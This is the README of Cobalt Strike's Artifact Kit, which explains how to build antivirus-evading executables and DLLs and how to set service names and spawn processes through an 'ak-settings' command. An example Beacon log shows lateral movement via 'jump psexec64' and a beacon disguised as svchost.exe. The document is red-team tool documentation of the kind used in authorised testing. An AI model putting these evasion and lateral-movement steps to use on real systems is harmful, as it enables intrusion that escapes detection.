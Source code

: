# Artifact Kit

This package contains source code for Cobalt Strike's Artifact Kit. This kit
is designed to ease the development of antivirus safe artifacts.

Cobalt Strike uses artifacts from this kit to generate executables and DLLs
that are safe from some antivirus products. Load the included artifacts.cna
script to force Cobalt Strike to use your artifacts over the built-in ones.

Cobalt Strike uses these artifacts in the following places:

- Attacks -> Packages -> Windows Executable
- Attacks -> Packages -> Windows Executable (S)
- Attacks -> Web Drive-by -> Scripted Web Delivery (bitsadmin and exe)
- Beacon's 'elevate svc-exe' command
- Beacon's 'jump psexec' and 'jump psexec64' commands

#### Support for artifact kit settings 
The artifact kit has implemented a new alias 'ak-settings' to support the
ability to modify the following settings:

- service - Modify the service name that is returned from the PSEXEC_SERVICE hook
- spawnto_x86 - Modify the process used for migration by the SERVICE EXE artifact.
- spawnto_x64 - Modify the process used for migration by the SERVICE EXE artifact.

The spawnto_x86 and spawnto_x64 settings will attempt to initialize with the 
.post-ex.spawnto_[x86|x64] settings in the Malleable C2 profile, however there
are some conditions that need to be met.  When those conditions occur a valid
default value will be used.  The settings do not support values longer than 63
characters, empty value, and environment variable substitutions.

In previous versions of the artifact kit these settings could have been updated
in the source code and then rebuild the artifact kit.  Now with the 'ak-settings'
command an operator can modify these settings as needed to generate an artifact.

Example:
```
03/31 11:14:13 beacon> ak-settings
03/31 11:14:13 [*] artifact kit settings:
03/31 11:14:13 [*]    service     = 'updatesvc'
03/31 11:14:13 [*]    spawnto_x86 = 'C:\Windows\SysWOW64\dllhost.exe'
03/31 11:14:13 [*]    spawnto_x64 = 'C:\Windows\System32\svchost.exe'
03/31 11:16:02 beacon> ak-settings service timesvc
03/31 11:16:02 [*] Updating the psexec service name to 'timesvc'
03/31 11:16:02 [*] artifact kit settings:
03/31 11:16:02 [*]    service     = 'timesvc'
03/31 11:16:02 [*]    spawnto_x86 = 'C:\Windows\SysWOW64\dllhost.exe'
03/31 11:16:02 [*]    spawnto_x64 = 'C:\Windows\System32\svchost.exe'
03/31 11:18:45 beacon> jump psexec64 TARGET smb
03/31 11:18:45 [*] Tasked beacon to run windows/beacon_bind_pipe (\\.\pipe\xyz) on TARGET via Service Control Manager (\\TARGET\ADMIN$\timesvc.exe)
03/31 11:18:49 [+] host called home, sent: 295101 bytes
03/31 11:18:52 [+] received output:
Started service timesvc on TARGET
03/31 11:18:52 [+] established link to child beacon: 111.22.333.444
```
You will notice that the new beacon will be running under the process 'svchost.exe'.

